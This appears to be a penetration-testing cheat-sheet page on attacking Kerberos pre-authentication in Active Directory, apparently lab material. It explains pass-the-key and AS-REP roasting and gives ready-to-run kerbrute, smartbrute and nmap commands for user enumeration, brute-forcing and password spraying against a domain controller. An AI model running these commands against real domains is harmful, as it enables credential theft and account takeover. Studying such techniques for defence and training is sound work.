 # Attack authentication

## Pre-authentication Kerberos

### Objectives

* Bruteforce accounts
* Password Spraying
* Bruteforce single user
* Enumerate user

Pre-authentication (AS-REQ) is possible on all accounts that do not have this checkbox unchecked : \
![](<../.gitbook/assets/image (7).png>)



In Pre-authentication, the user does not supply its password but a secret which is derivated from its password (DES, RC4, AES128 or AES256).

If we know the derivated secret, we don't need to know the password to achieve pre-auth (pass-the-key).

If pre-authentication is disabled, AS-REP Roasting is possible.

### Kerbrute (go)

```
sudo git clone https://github.com/ropnop/kerbrute.git
ls dist/
./kerbrute_linux_amd64 
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
```

### Alternative : Smartbrute (Python)

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN

# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos// Some code
```

### Nmap

```
nmap -p 88 --script="krb5-enum-users" --script-args="krb5-enum-users.realm='$DOMAIN',userdb=$WORDLIST" $IP_DC
```

\
